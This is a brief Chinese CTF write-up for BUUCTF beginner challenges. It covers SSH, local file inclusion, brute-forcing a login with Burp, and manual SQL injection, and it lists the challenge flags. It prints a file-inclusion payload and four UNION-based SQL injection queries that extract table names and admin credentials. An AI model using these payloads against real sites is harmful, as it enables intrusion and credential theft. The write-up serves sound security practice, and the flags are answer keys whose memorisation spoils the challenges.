


# BUUCTF

## Basic

### Linux Labs

考查ssh指令的使用，直接ssh连接，cat即可获取flag

flag{a5cc0a97-d829-457e-ac1e-62f70f896fd3}

### BUU LFI COURSE

考查简单的文件包含漏洞，payload：?file=/flag

flag{16ae1a6f-55f5-4ade-846d-c7cf54159330}

### BUU BRUTE

根据题目可得该题考查利用burp进行爆破。

账号自己试出来的admin，密码进行爆破

flag{120ab0d6-f8b3-4dc1-8d24-3857935c8366}

### BUU SQL COURSE

考查手动sql注入

id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='news')

id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='admin')

id=-1 union select 1,(select group_concat(username) from admin)

id=-1 union select 1,(select group_concat(password) from admin)

得到账号：admin

密码：63126491141fbfd40b40ca68a53a46c1

flag{8957ddca-26d4-4e72-9c91-a09673a935a8}